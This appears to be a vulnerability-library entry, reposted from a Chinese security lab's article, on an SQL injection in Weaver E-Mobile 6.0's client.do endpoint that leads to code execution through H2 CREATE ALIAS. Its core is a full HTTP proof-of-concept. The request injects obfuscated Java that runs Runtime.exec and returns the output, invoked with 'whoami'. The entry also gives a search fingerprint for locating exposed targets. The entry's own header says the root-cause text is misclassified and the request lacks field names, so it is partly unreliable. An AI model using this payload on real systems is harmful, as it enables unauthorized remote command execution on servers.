


# 泛微e-mobile client.do SQL注入→H2 CREATE ALIAS代码执行

## 条目说明

- 对象与具体问题：泛微e-mobile；client.do SQL注入→H2 CREATE ALIAS代码执行
- 版本、配置及部署条件：6.0；H2创建别名权限、Resin反射对象可用
- 认证与权限前提：请求无凭证，未说明鉴权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 根因描述泛称OS命令输入，实际样本是SQL注入链，分类应补SQLi/H2后利用
- multipart字段name全部丢失，不能定位method与注入参数
- HTTP缺头体分隔；修复信息和厂商来源缺失，广告较多

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CvVlJTluglXZThPeoHBRdw)

**0x01 阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**

**0x02 漏洞原理**

**泛微 E-Mobile 6.0 爆出存在命令执行漏洞的问题。现****在已经确认了这个漏洞可以被攻击者利用，在某些情况下，用户的输入可能被直接传递给底层操作系统的命令执行函数，攻击者可以通过在输入中插入特殊字符或命令序列来欺骗应用程序将其作为有效命令来执行，从而获得服务器的命令执行权限。**

**0x03 漏洞利用**

**Hunter：******web.body=Weaver E-Mobile****

**影响版本：6.0 版本**



```http
POST /client.do HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTm8YXcJeyKDClbU7
Content-Length: 1147
------WebKitFormBoundaryTm8YXcJeyKDClbU7
Content-Disposition: form-data; 
getupload
------WebKitFormBoundaryTm8YXcJeyKDClbU7
Content-Disposition: form-data; 
1';CREATE ALIAS if not exists MzSNqKsZTagmf AS CONCAT('void e(String cmd) throws java.la','ng.Exception{','Object curren','tRequest = Thre','ad.currentT','hread().getConte','xtClass','Loader().loadC','lass("com.caucho.server.dispatch.ServletInvocation").getMet','hod("getContextRequest").inv','oke(null);java.la','ng.reflect.Field _responseF = currentRequest.getCl','ass().getSuperc','lass().getDeclar','edField("_response");_responseF.setAcce','ssible(true);Object response = _responseF.get(currentRequest);java.la','ng.reflect.Method getWriterM = response.getCl','ass().getMethod("getWriter");java.i','o.Writer writer = (java.i','o.Writer)getWriterM.inv','oke(response);java.ut','il.Scan','ner scan','ner = (new java.util.Scann','er(Runt','ime.getRunt','ime().ex','ec(cmd).getInput','Stream())).useDelimiter("\\A");writer.write(scan','ner.hasNext()?sca','nner.next():"");}');CALL MzSNqKsZTagmf('whoami');--
------WebKitFormBoundaryTm8YXcJeyKDClbU7--

```



零日 / 一日 漏洞探讨加 Seven_-0928 、banxor9  

本实验室接受正规站点的授权渗透测试服务。如你的公司业务有 Web 渗透测试，高级渗透测试，红蓝对抗，黑客溯源，Java 代码审计等需求可联系以下微信进行商务洽谈：Xud330327

同时欢迎各位师傅加入 HW 闲聊吹水群（2000 人群）

****

********

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
